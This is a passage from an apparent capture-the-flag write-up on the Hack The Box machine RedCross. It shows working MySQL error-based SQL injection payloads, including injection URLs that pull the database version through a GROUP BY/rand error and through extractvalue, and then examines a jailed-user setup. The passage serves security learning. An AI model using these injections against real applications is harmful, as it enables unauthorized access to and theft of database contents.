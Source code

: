 NETSPI has a [list of error based
injections](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) that
gives a simplified version of that query:

    
    
    SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)
    

If I visit `https://intra.redcross.htb/?o=1') and (select 1 from (Select
count(*),Concat((version()),0x3a,floor(rand (0) *2))y from
information_schema.tables group by y) x)-- -&page=app`, I get the db version
back:

![1555090092657](https://0xdfimages.gitlab.io/img/1555090092657.png)

Note, the “:1” at the end is not part of the version, but rather the result of
the `concat` in the injection and the rand that causes the error.

The NETSPI list has a simpler version that uses XML Parse Errors. Their
example is:

    
    
    SELECT extractvalue(rand(),concat(0x3a,(select version())))
    

Playing around with that a bit to get it to work, I can get a version out of
the page by going to:

`https://intra.redcross.htb/?page=app&o=1' and
extractvalue(0x0a,concat(0x0a,(version()))) and 1)'`:

![1555090646456](https://0xdfimages.gitlab.io/img/1555090646456.png)

### Jail Config

I’ll notice that the php code uses the following query to the database to
create a user:

    
    
    "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')"
    

The group is set to 1001, and the homedir is set to `/var/jail/home`.

When I ssh in as one of these users, I can see group 1001 is associates:

    
    
    $ id
    uid=2025 gid=1001(associates) groups=1001(associates)
    

However, if I try to `cd ~`, it returns an error:

    
    
    $ cd ~
    -bash: cd: /var/jail/home: No such file or directory
    
